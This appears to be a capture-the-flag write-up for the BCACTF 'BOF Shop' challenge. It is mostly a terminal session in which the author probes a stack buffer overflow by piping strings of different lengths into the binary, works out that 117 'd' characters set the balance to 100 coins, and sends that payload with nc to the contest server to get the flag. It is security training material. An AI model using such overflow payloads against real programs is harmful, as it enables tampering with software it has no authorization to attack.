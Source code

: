 ### Chall Desc:
Welcome to the BOF Shop! Now you have the chance to buy your own flag! All you need to do is get a few coins first. Good luck.

### Link of server: nc bin.bcactf.com 49174

### Source_code and binary:
[bof-shop.c](bof-shop.c)
[bof-shop](bof-shop)


### Soln:

The solution is self-explanatory. Since, the amount of money was dependent on the users name, there had to be a particular string assigned 100 coins.  
In this case, it was mapped with their ascii values and hecne `d` was the letter with `117` frequency as the sweet spot.  
I figured this out with hit and trials.

```py
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ ls
bof-shop
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ echo "bcactf{test_flag}" > flag.txt
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ ls
bof-shop  flag.txt
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ cat flag.txt
bcactf{test_flag}
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python -c "print('A'*200)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Command 'python' not found, did you mean:
  command 'python3' from deb python3
  command 'python' from deb python-is-python3
Your balance: 0 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*200)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 1094795585 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*100)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 0 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*150)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 1094795585 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*125)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 1094795585 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*112)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 0 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*117)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 65 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('z'*117)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 122 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('d'*117)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 100 coins

Wow. Here, take the flag in exchange for your 100 coins.
bcactf{test_flag}

ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('d'*117)" | nc bin.bcactf.com 49174
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 100 coins

Wow. Here, take the flag in exchange for your 100 coins.
bcactf{buFF3r_0v3rflow_M4D3_3asy_71f7e2}
```

Thank you
